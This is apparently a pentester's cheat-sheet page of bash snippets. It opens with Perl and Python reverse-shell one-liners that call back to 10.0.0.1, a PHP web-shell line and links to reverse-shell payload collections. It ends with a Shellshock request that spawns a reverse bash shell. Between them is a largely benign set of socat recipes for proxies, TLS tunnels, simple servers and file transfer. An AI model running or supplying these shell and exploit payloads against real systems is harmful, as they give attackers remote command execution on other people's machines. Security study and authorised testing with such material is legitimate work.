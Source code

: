 ```bash
# - [Reverse Shell Generator](https://www.revshells.com/)
perl -e 'use Socket;$i="10.0.0.1";$p=8081;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
python -c 'import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 8081)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(["/bin/bash", "-i"]);'
# <?php system($_GET['c']); ?>
```

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://guide.offsecnewbie.com/shells
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://alamot.github.io/reverse_shells/
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

# relay

```bash
# debug
socat - EXEC:filan,pipes,stderr

# proxy
socat TCP-LISTEN:8080,fork,reuseaddr TCP:google.com:443

# tls tunnel
# alternatives:
# - https://www.stunnel.org/
# - https://github.com/ghostunnel/ghostunnel
socat -v tcp-listen:6667,reuseaddr,fork,bind=127.0.0.1 ssl:"$foo_server":6697
./foo_client -s 127.0.0.1

# http requests
echo "HEAD / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n" | socat -v -x -,ignoreeof openssl:google.com:443,verify=0
echo "HEAD / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n" | socat -v -x -,ignoreeof tcp:google.com:80
# ||
exec 3<>/dev/tcp/www.google.com/80 printf '%s' 'HEAD / HTTP/1.1
Host: http://www.google.com
Connection: close

' >&3 cat <&3

# web server
socat TCP-LISTEN:8080,fork,crnl SYSTEM:'printf \"HTTP/1.1 200 OK\\n\\n\"\; cat test.html'

# chat service - bind to multicast group 239.255.1.1 on interface that has unicast IP 10.0.0.10, sending and receiving on port 4242 over UDP, reading from stdin and writing to stdout.
socat - UDP-DATAGRAM:239.255.1.1:4242,ip-add-membership=239.255.1.1:10.0.0.10,ip-multicast-loop=0,bind=:4242

# remote file
# > Note that streaming eg. via TCP or SSL does not guarantee to retain packet boundaries and may thus cause packet loss.
socat -u FILE:"${HOME}/foo" TCP-LISTEN:8123,reuseaddr
socat -u TCP:10.0.0.1:8123 STDOUT > /foo

# cgi in bash
curl --head vulnerable --header 'Connection: close' --header 'User-Agent: () { :; }; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"'
```
